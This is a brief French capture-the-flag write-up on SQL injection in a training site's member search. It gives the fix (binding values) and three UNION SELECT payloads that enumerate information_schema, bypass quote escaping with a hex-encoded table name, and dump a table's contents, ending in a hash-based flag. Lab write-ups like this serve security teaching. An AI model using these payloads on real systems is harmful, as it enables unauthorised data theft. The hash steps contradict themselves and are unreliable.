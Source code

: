 Security breach name 	: Injection Sql

Principle 				: Utilisé des inputs mal protégés pour accéder à des données sensibles de la base de données, en modifiant les requêtes faites sur celle-ci.

Solve 					: Ne pas insérer directement les valeurs entré par un utilisateur dans une requête Sql, il existe plusieurs méthodes : binder les valeurs, stringifier les valeurs..

In case 				: Dans la barres de recherche membre, la valeurs entré est diretement inséré dans la requêtes ce qui nous permet dans une certaines mesures de modifier sont sens. 
							(La requêtes n'accepte que deux arguments pour le select)
							
							1 - 1 union select table_schema,table_name from information_schema.tables , nous permet de faire apparaître l'ensemble des informations promaires concernant la base de données.

							2 - 1 union select null,group_concat(column_name) from information_schema.columns where table_name = 0x6c6973745f696d61676573 , les quotes étant échappées par le contrôleur on modifie la valeur de du string par sa valeur hexa ce qui nous permet de nous passer des quotes.

							3 - 1 union select title,comment from list_images
							{
								ID: 1 union select title,comment from list_images 
								Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
								Url : Hack me ?
							}
							{
								md5 hash : 5928e8083cf461a51303633093573c46 =  albatroz
								lower all char  = fortytwo
								hash Sh256 = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
							}

